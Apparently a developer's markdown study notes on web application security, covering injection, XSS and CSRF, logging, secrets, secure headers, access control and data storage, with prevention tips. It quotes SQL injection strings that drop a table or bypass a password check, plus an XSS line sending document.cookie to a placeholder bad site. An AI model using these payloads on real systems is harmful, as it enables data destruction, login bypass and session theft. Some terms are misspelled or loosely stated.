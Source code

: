 # Security

## Important Topics

- injections
- 3rd party libraries
- logging
- HTTPS everywhere
- XSS & CSRF
- code secrets
- secure headers
- access control
- data management
- don't trust anyone
- authentication

## Injections

- injecting code elsewhere
  - most famous -> SQL injections
  - `''; DROP TABLE table_name; --`
  - `''; or 1=1--` -> for passwords
- images are injected into DOM after rendering
- `textnode` can help to textify and sanitise input

### How to avoid

- sanitise input (check inputs for expected inputs)
  - whitelist vs. blacklist
- parametrise queries (prepared statements)
  - pre-compile SQL statements
  - object relational mappers -> provide statements for us
- ORMs (object relational mappers) like Knex.js

## 3rd party libraries

- ensure that library is trustworthy
- check popularity (forks, stars, etc.) of package
- snyk is a tool to test node moudle dependencies

## Logging

- gather all information about user actions/behaviour
- **insufficient logging** can provide gap for hacker to take actions going unseen
- 2 packages for JS:
  - morgan (HTTP logger middleware)
  - winston (log everything)

## HTTPS everywhere

- SSL / TLS certificates
- https://letsencrypt.org/

## XSS & CSRF

### XSS - Cross-Side-Scripting

- allows attacker to execute script in client's server
- `window.location = 'new_bad_website?cookie='+ document.cookie`
- prevent through input sanitisation

### Cross Side Request Forgery

- create bad URL that has malicious code in it

### How to prevent

- sanitise inputs
- no `eval()`
- no `document.write()`
- [content security policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [secure + HTTPOnly cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)

## Code secrets

- environmental variables
  - `process.env.NODE_ENV` by default
  - can define `.env` file for environmental variables
    - variables start with `REACT_APP_`
- commit history
  - NEVER add config files / passwords to git repo

## Secure headers

- `npm install helmet` -> [helmet docu](https://github.com/helmetjs/helmet)
- on server side (usually for express.js)
- middleware
- [HTTP headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)
- [HTTP header fields](https://www.tutorialspoint.com/http/http_header_fields.htm)

## Access control

- having restriction on what authenticated users are allowed to do
- **principal of least privilige**
- `cors` middleware important to security (Cross Origin Ressource Sharing)
  - need to establish cors white list
  - otherwise access is unrestricted

## Data management

- make sure back-ups are available
- limit sensitive data exposure
- encrypt data in transition (based on ressources)
- hashing tools (passwords)
  - bcrypt
  - scrypt
  - Aragon2
- encrypt DB (e.g. pgcrypto)
  - encrypt a few columns

## Don't trust anyone

- any point in the chain can be attacked

## Authentication

- make sure that user is who he says he is
- session-based vs. token-based
